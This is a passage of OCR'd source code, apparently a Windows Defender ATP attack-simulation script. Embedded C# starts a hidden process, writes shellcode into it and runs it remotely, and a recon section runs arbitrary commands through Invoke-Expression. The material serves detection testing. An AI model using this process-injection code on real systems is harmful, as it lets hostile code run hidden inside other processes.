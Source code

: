 ```powershell
        ProcessStartInfo startInfo = new ProcessStartInfo(targetProcessCommand);
        startInfo.UseShellExecute = false;
        startInfo.WindowStyle = ProcessWindowStyle.Hidden;
        Process targetProc = Process.Start(startInfo);
        System.Threading.Thread.Sleep(50);
        var createdProcessPtr = targetProc.OpenProc(ProcessExtensions.ProcessAccessFlags.All);
        if (createdProcessPtr == IntPtr.Zero)
        {
            System.Threading.Thread.Sleep(50);
            createdProcessPtr = targetProc.OpenProc(ProcessExtensions.ProcessAccessFlags.All);
        }
        ProcessExtensions.ProcessHandler = createdProcessPtr;
        System.Threading.Thread.Sleep(500);
        IntPtr remoteShellcodeAddr = targetProc.Alloc(s_shellcode.Length);
        if (remoteShellcodeAddr == IntPtr.Zero)
        {
            System.Threading.Thread.Sleep(50);
            remoteShellcodeAddr = targetProc.Alloc(s_shellcode.Length);
        }
        bool res = targetProc.Write(remoteShellcodeAddr, s_shellcode);
        if (!res)
        {
            System.Threading.Thread.Sleep(50);
            targetProc.Write(remoteShellcodeAddr, s_shellcode);
        }
        
        targetProc.Call(remoteShellcodeAddr, IntPtr.Zero);
        string msg = "Hi!" + Environment.NewLine +
            "A shellcode was just injected to this process" + Environment.NewLine +
            "If your OS build is 1809 or higher, then keep this window open to see WDATP's Auto IR in action!" + Environment.NewLine +
            "Otherwise, feel free to close this window" + Environment.NewLine + Environment.NewLine +
            "More info in our walkthrough under: https://securitycenter.windows.com/tutorials";
        msg = msg.Replace("@", "$");
        targetProc.TypeText(msg);
    }
}
"@;Add-Type -TypeDefinition $source;[CodeInjection]::Inject()

$logfile = $env:temp + '\reconlog.txt'
function Write-DebugLog 
{
   param( [string]$message, [string]$filepath =  $logfile )   
   $message | Out-File $filepath -append
   Write-Host $message   
}

{
   param( [string]$cmdline)
   Write-DebugLog "Will run $cmdline"
   $result = Invoke-Expression $cmdline  2>&1 | %{ "$_" } | Out-String
   Write-DebugLog $result   
}


function DoRecon() {    
    Add-Type -TypeDefinition @"
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    public class MyNetSes
    {
```